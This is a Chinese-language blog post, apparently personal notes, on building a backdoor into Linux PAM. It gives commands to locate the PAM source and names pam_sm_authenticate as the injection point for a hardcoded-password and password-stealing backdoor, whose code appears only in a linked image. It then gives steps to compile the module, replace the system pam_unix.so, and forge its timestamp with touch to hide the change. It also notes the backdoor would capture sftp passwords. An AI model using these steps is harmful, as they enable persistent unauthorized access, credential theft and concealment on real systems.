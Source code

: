# PAM后门制作

关于PAM后门的制作网上已经有很多教程了，这位师傅写的蛮详细。自己这里大体相当于复现了他的操作。

地址：https://xz.aliyun.com/t/7902



## 获取PAM源码包

```shell
#Debian系
apt list --installed|grep pam
dpkg -L libpam-modules:amd64 |grep pam_unix.so
dpkg -l libpam-modules:amd64

http://deb.debian.org/debian/pool/main/p/pam/pam_1.4.0.orig.tar.xz


#RHEL系
rpm -qf /usr/lib64/security/pam_unix.so
http://www.linux-pam.org/library/
```

## 插入后门逻辑

这里主要参考网上给出的那个位置进行后门代码注入。

```shell
pam_unix_auth.c     ... pam_sm_authenticate
```

下面的代码中同时给出了硬编码后门及口令窃取后门，具体改法如下：

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-13_145932.png)

## 编译

```shell
./configure && make
#下面具体的拷贝目的地与Linux的发行版有关，不同系统下位置略有差异。
mv /usr/lib/x86_64-linux-gnu/security/pam_unix.so /usr/lib/x86_64-linux-gnu/security/pam_unix.so.bak
cp /root/Downloads/PAM/Linux-PAM-1.4.0/modules/pam_unix/.libs/pam_unix.so /usr/lib/x86_64-linux-gnu/security/pam_unix.so
chmod 644 /usr/lib/x86_64-linux-gnu/security/pam_unix.so
#改一下时间戳
touch -acmr /usr/lib/x86_64-linux-gnu/security/pam_warn.so /usr/lib/x86_64-linux-gnu/security/pam_unix.so
```

## 效果

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-13_145807.png)

总体下来可以发现单论制作，比OpenSSH后门简单的多，同时理论上它应该也能偷取到sftp之类的其他使用PAM进行linux账户认证时输入的密码。

